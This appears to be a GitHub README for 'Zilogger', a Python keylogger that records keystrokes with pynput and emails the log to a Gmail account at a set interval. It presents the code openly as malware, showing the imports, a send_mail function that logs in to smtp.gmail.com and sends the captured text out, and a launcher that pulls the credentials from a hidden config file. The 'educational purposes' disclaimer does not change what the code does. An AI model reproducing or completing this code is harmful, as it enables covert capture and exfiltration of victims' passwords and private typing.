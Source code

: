 # Keylogger
```
Keylogger with send message gmail
The program reads the buttons entered from the keyboard key
Sends in the form of a log to the mail
```
```
The program is written for educational purposes.
```

# Import
```python
import pynput.keyboard
import threading
import smtplib
```

# Explanation
Settings may differ from preference and SMTP. Server
Debuglevel -> False, Turns on when debugging a program
```python
def send_mail(email, password, message):
    """Send email smtp.google.com"""
    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)
    server.set_debuglevel(False)
    server.login(email, password)
    server.auth_plain()
    server.sendmail(email, email, message)
    server.quit()
```
# Zilogger
Gets the input time interval for sending email, and variables from the config.py(is hidden) file for authorization on the SMTP server
```python
import keylogger
import config

# 86400 second -> 24 hours
my_keylogger = keylogger.Keylogger(86400, config.EMAIL, config.PASSWORD)
my_keylogger.start()
```

